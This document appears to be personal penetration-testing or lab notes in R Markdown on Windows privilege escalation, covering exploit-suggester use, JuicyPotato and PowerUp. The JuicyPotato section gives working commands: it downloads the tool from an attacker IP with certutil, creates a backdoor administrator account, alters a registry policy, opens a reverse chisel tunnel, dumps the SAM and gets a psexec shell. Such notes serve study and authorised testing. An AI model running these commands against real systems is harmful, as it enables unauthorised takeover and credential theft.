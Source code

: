 # Windows Machine {-}

## Active Directory {-}

### Golden Ticket Attack {-}

The goal of this attack is to generate a Ticket Granted Ticket. For this attack you thenneed to recover the hash of the **krbtgt** user that is the one who 
can create those tickets

## Check possible privilege escalation vulnerabilities {-}

1. check os:

    ```bash
    systeminfo
    ```

1. copy the result and pase in a file in local

1. download windows-exploit-suggester.py

1. generate xlsx data base
    
    ```bash
    python3 windows-exploit-suggester.py --update
    ```

1. check systeminfo documentation

    ```
    python3 windows-exploit-suggester.py -i systeminfo.txt -d 2021-07-14-mssb.xlsx
    ```

1. github.SecWiki/windows-kernel-exploits

1. python -m http.server

1. certutil.exe -f

## Check command history {-}

```bash
dir/s *history.txt
```

## JuicyPotato {-}

Juicy Potato is a local privilege escalation tool that exploit Windows service accounts impersonation privileges.

1. Check user privilege

    ```bash
    whoami
    whoami /priv
    ```

    ```r
        knitr::include_graphics("images/juicy-impersonate-priv.png")
    ```

    Here we can see that `SeImpersonatePrivilege` is enabled. That means that we can use JuicyPotatoe to run commands

1. Check users in the system

    ```bash
    net user
    ```

1. Create User with Admin privilege

    - download JuicyPotato.exe and copy in the victim machine
    - create folder in `C:\Windows\Temp`
    - Transfer JuicyPotato to Windows Machine
    
        ```bash
        certutil.exe -f -urlcache -split http://10.10.10.10/JuicyPotato.exe JP.exe
        ```
    - Create user looping

        ```bash
        JP.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net user looping looping123! /add"
        ```

    - Add user to Administrators group

        ```bash
        JP.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net localgroup Administrators looping /add"
        net user looping
        ```

    - Create Share folder where user with Administrators rules have Full privilege

        ```bash
        JP.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net share attacker_folder=C:\Windows\Temp /GRANT:Administrators,FULL"
        ```
    
    - Update local account policy to gain access to the system

        ```bash
        JP.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System 
                                                                    /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f"
        ```

    - Check with chisel and crackmapexec if user looping is now Pownd 

        - download chisel on attacker machine and on victim machine
        - run chisel on attacker machine

            ```bash
            ./chisel server --reverse --port 1234
            ```

        - run chisel on windows victim machine

            ```bash
            chisel.exe client 10.10.10.10:1234 R:445:127.0.0.1:445
            ```
        - check if revert port forwarding works

            ```bash
            crackmapexec smb 127.0.0.1
            ```

        - check if looping is powned
        
            ```bash
            crackmapexec smp -u 'looping' -p 'looping123!' --sam

            #OUTPUT
            SMB 127.0.0.1   445 MACHINENAME [*] machinename\looping:looping123! (Pwn3d!)
            ```
    
    - Connect to machine with psexec.python

        ```bash
        locate psexex.py
        psexec.py WORKGROUP/looping@127.0.0.1 cmd.exe
        ```
    

## System enumeration with PowerUp for Privesc {-}

**PowerUp** is a script from the PowerSploit Library. PowerSploit is a collection of Microsoft PowerShell modules that can be used to aid penetration 
testers during all phases of an assessment.

[PowerSploit github](https://github.com/PowerShellMafia/PowerSploit)

1. Open the script

    ```bash
    cd PowerSploit/Privesc
    vi PowerUp.ps1
    ```

1. Set an automatic execution of the desired Alias

    - Write `Invoke-AllChecks` the end of the file

1. Send to the victim machine

1. Check the result

    ```r
        knitr::include_graphics("images/sys-enum-powerup.png")
    ```


In this example we can see that the UsoSvc is a Modifiable Service with an Invoke-ServiceAbuse function.

Feel free now to check for an exploit on [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings).
Payloads for Windows and Active Directory are listed in the [Methodology and Resource Folder](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Methodology%20and%20Resources)
where you can find a **Windows - Privilege Escalation.md**.

Search for UsoSvc to find what to do.

